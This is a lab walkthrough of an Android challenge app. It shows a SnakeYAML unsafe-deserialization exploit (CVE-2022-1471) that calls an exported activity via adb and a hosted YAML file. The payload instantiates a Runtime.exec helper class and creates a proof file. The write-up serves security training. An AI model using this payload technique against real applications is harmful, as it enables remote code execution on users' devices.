



## Introduction

Welcome to the Config Editor Challenge! In this lab, you'll dive into a realistic situation involving vulnerabilities in a widely-used third-party library. Your objective is to exploit a library-induced vulnerability to achieve RCE on an Android application.

## Objective

* Successfully execute remote code through the exploitation of a vulnerability in a third-party library.

## Skills Required

* Proficiency in reverse engineering Android applications.
* Understanding of Android app architecture and library-induced vulnerabilities.

Let's download vpn file and use adb to connect to the lab

```shell
pl4int3xt@archlinux ~> adb connect 10.11.1.1:5001 
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to 10.11.1.1:5001
```

Opening the app we get this screen that allows us to load and save a yml file



Let's locate the third party apps installed with adb 

```shell
pl4int3xt@archlinux ~> adb shell pm list packages -3
package:com.mobilehackinglab.configeditor
pl4int3xt@archlinux ~> 
```

Let's get the path of the config editor app

```shell
pl4int3xt@archlinux ~> adb shell pm path com.mobilehackinglab.configeditor
package:/data/app/~~7nJyEbpomszhvZKacYpBDQ==/com.mobilehackinglab.configeditor-Xlgn336TGw-b6-q5Xmjmyg==/base.apk
```

Let's pull the app for static analysis with jadxgui

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> adb pull /data/app/~~7nJyEbpomszhvZKacYpBDQ==/com.mobilehackinglab.configeditor-Xlgn336TGw-b6-q5Xmjmyg==/base.apk
/data/app/~~7nJyEbpomszhvZKacYpBDQ==/com.mobilehackin...lled, 0 skipped. 0.0 MB/s (5862286 bytes in 136.045s)
```

Opening the AndroidManifest.xml file we see this interesting part. It is an implicit intent that can handle requests to view data from the following sources : local files `file://` and web links `http://` and `https://`, It accepts only `yaml` mimeType. The `MainActivity` is exported meaning we can use adb to launch it with the correct intent.

```xml
<activity
    android:name="com.mobilehackinglab.configeditor.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="file"/>
        <data android:scheme="http"/>
        <data android:scheme="https"/>
        <data android:mimeType="application/yaml"/>
    </intent-filter>
</activity>
```

Next in the `MainActivity` we get the `handleIntent()` function that handles the implicit intent. It does some checks and calls the `mainActivity.loadYaml(uri)` function to load the file


```java
private final void handleIntent() {
    Intent intent = getIntent();
    String action = intent.getAction();
    Uri data = intent.getData();
    if (Intrinsics.areEqual("android.intent.action.VIEW", action) && data != null) {
        CopyUtil.INSTANCE.copyFileFromUri(data).observe(this, new MainActivity$sam$androidx_lifecycle_Observer$0(new Function1<Uri, Unit>() { // from class: com.mobilehackinglab.configeditor.MainActivity$handleIntent$1
            /* JADX INFO: Access modifiers changed from: package-private */
            {
                super(1);
            }

            @Override // kotlin.jvm.functions.Function1
            public /* bridge */ /* synthetic */ Unit invoke(Uri uri) {
                invoke2(uri);
                return Unit.INSTANCE;
            }

            /* renamed from: invoke, reason: avoid collision after fix types in other method */
            public final void invoke2(Uri uri) {
                MainActivity mainActivity = MainActivity.this;
                Intrinsics.checkNotNull(uri);
                mainActivity.loadYaml(uri);
            }
        }));
    }
}
```

The `loadYaml()` function does nothing fancy but to load the file.

```java
public final void loadYaml(Uri uri) {
    try {
        ParcelFileDescriptor openFileDescriptor = getContentResolver().openFileDescriptor(uri, "r");
        try {
            ParcelFileDescriptor parcelFileDescriptor = openFileDescriptor;
            FileInputStream inputStream = new FileInputStream(parcelFileDescriptor != null ? parcelFileDescriptor.getFileDescriptor() : null);
            DumperOptions $this$loadYaml_u24lambda_u249_u24lambda_u248 = new DumperOptions();
            $this$loadYaml_u24lambda_u249_u24lambda_u248.setDefaultFlowStyle(DumperOptions.FlowStyle.BLOCK);
            $this$loadYaml_u24lambda_u249_u24lambda_u248.setIndent(2);
            $this$loadYaml_u24lambda_u249_u24lambda_u248.setPrettyFlow(true);
            Yaml yaml = new Yaml($this$loadYaml_u24lambda_u249_u24lambda_u248);
            Object deserializedData = yaml.load(inputStream);
            String serializedData = yaml.dump(deserializedData);
            ActivityMainBinding activityMainBinding = this.binding;
            if (activityMainBinding == null) {
                Intrinsics.throwUninitializedPropertyAccessException("binding");
                activityMainBinding = null;
            }
            activityMainBinding.contentArea.setText(serializedData);
            Unit unit = Unit.INSTANCE;
            Closeable.closeFinally(openFileDescriptor, null);
        } finally {
        }
    } catch (Exception e) {
        Log.e(TAG, "Error loading YAML: " + uri, e);
    }
}
```

Same with `saveYaml()` nothing interesting here.

```java
private final void saveYaml(Uri uri) {
    try {
        OutputStream openOutputStream = getContentResolver().openOutputStream(uri);
        if (openOutputStream != null) {
            OutputStream outputStream = openOutputStream;
            try {
                OutputStream outputStream2 = outputStream;
                ActivityMainBinding activityMainBinding = this.binding;
                if (activityMainBinding == null) {
                    Intrinsics.throwUninitializedPropertyAccessException("binding");
                    activityMainBinding = null;
                }
                String data = activityMainBinding.contentArea.getText().toString();
                byte[] bytes = data.getBytes(Charsets.UTF_8);
                Intrinsics.checkNotNullExpressionValue(bytes, "getBytes(...)");
                outputStream2.write(bytes);
                Unit unit = Unit.INSTANCE;
                Closeable.closeFinally(outputStream, null);
            } finally {
            }
        }
    } catch (Exception e) {
        Log.e(TAG, "Error saving YAML: " + uri, e);
    }
}
```

Looking at the classes we come across `LegacyCommandUtil` which is not called anywhere



The function allows you to execute commands at runtime `Runtime.getRuntime().exec(command)`


```java
package com.mobilehackinglab.configeditor;

import androidx.constraintlayout.widget.ConstraintLayout;
import kotlin.Deprecated;
import kotlin.DeprecationLevel;
import kotlin.Metadata;
import kotlin.jvm.internal.Intrinsics;

/* compiled from: LegacyCommandUtil.kt */
@Deprecated(level = DeprecationLevel.ERROR, message = "Command Util is unsafe and should not be used")
@Metadata(d1 = {"\u0000\u0012\n\u0002\u0018\u0002\n\u0002\u0010\u0000\n\u0000\n\u0002\u0010\u000e\n\u0002\b\u0002\b\u0007\u0018\u00002\u00020\u0001B\r\u0012\u0006\u0010\u0002\u001a\u00020\u0003¢\u0006\u0002\u0010\u0004¨\u0006\u0005"}, d2 = {"Lcom/mobilehackinglab/configeditor/LegacyCommandUtil;", "", "command", "", "(Ljava/lang/String;)V", "app_debug"}, k = 1, mv = {1, 9, 0}, xi = ConstraintLayout.LayoutParams.Table.LAYOUT_CONSTRAINT_VERTICAL_CHAINSTYLE)
/* loaded from: classes4.dex */
public final class LegacyCommandUtil {
    public LegacyCommandUtil(String command) {
        Intrinsics.checkNotNullParameter(command, "command");
        Runtime.getRuntime().exec(command);
    }
}
```


Looking at the main activity we get this import with a [CVE-2022-1471](https://snyk.io/blog/unsafe-deserialization-snakeyaml-java-cve-2022-1471/)

```java
import org.yaml.snakeyaml.Yaml;
```

Next let's craft a payload that will use the cve to perform a RCE with the `LegacyCommandUtil` class

```
rce: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["touch /data/data/com.mobilehackinglab.configeditor/proof.txt"]
```

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> bat rce.yml
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: rce.yml
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ rce: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["touch /data/data/com.mobilehackinglab.co
       │ nfigeditor/proof.txt"]
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────
```

Let's get our ip with the following commands to serve the file

```shell
pl4int3xt@archlinux ~> ip a s tap0
```

Let's start the python server to serve the file

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Next we use adb to launch the `MainActivity` with an implicit intent that gets the file we served with python

```shell
pl4int3xt@archlinux ~> adb shell am start -a android.intent.action.VIEW -d  "http://10.11.3.2:8000/rce.yml" -n
 com.mobilehackinglab.configeditor/.MainActivity
Starting: Intent { act=android.intent.action.VIEW dat=http://10.11.3.2:8000/... cmp=com.mobilehackinglab.configeditor/.MainActivity }
```

The file was served successfully

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.11.0.1 - - [03/Jul/2024 14:33:18] "GET /rce.yml HTTP/1.1" 200 -
```

The app shows this meaning the exploit run



we then pull the file with adb to confirm that it was written successfully

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> adb pull /data/data/com.mobilehackinglab.configeditor/proof.txt
/data/data/com.mobilehackinglab.configeditor/proof.txt: 1 file pulled, 0 skipped.
```
